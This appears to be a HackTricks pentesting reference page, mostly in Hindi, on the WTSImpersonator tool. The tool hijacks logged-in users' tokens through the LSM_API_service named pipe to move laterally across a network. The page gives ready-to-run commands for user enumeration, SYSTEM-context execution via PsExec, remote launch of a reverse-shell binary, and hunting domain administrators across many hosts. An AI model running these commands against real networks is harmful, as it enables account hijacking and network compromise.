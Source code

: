 {{#include ../../banners/hacktricks-training.md}}

**WTS Impersonator** उपकरण **"\\pipe\LSM_API_service"** RPC नामित पाइप का उपयोग करके चुपचाप लॉगिन किए गए उपयोगकर्ताओं की गणना करता है और उनके टोकन को हाईजैक करता है, पारंपरिक टोकन अनुकरण तकनीकों को बायपास करता है। यह दृष्टिकोण नेटवर्क के भीतर निर्बाध पार्श्व आंदोलनों को सुविधाजनक बनाता है। इस तकनीक के पीछे की नवाचार **Omri Baso** को श्रेय दिया जाता है, जिनका काम [GitHub](https://github.com/OmriBaso/WTSImpersonator) पर उपलब्ध है।

### मुख्य कार्यक्षमता

उपकरण API कॉल की एक श्रृंखला के माध्यम से कार्य करता है:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Key Modules and Usage

- **उपयोगकर्ताओं की गणना**: इस उपकरण के साथ स्थानीय और दूरस्थ उपयोगकर्ता गणना संभव है, किसी भी परिदृश्य के लिए आदेशों का उपयोग करते हुए:

- स्थानीय रूप से:
```powershell
.\WTSImpersonator.exe -m enum
```
- दूरस्थ रूप से, एक IP पता या होस्टनाम निर्दिष्ट करके:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **आदेश निष्पादित करना**: `exec` और `exec-remote` मॉड्यूल को कार्य करने के लिए एक **सेवा** संदर्भ की आवश्यकता होती है। स्थानीय निष्पादन के लिए केवल WTSImpersonator निष्पादन योग्य और एक आदेश की आवश्यकता होती है:

- स्थानीय आदेश निष्पादन का उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- सेवा संदर्भ प्राप्त करने के लिए PsExec64.exe का उपयोग किया जा सकता है:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **दूरस्थ आदेश निष्पादन**: PsExec.exe के समान दूरस्थ रूप से एक सेवा बनाने और स्थापित करने में शामिल है, जो उचित अनुमतियों के साथ निष्पादन की अनुमति देता है।

- दूरस्थ निष्पादन का उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **उपयोगकर्ता शिकार मॉड्यूल**: कई मशीनों में विशिष्ट उपयोगकर्ताओं को लक्षित करता है, उनके क्रेडेंशियल के तहत कोड निष्पादित करता है। यह कई सिस्टम पर स्थानीय प्रशासनिक अधिकारों के साथ डोमेन प्रशासकों को लक्षित करने के लिए विशेष रूप से उपयोगी है।
- उपयोग का उदाहरण:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}

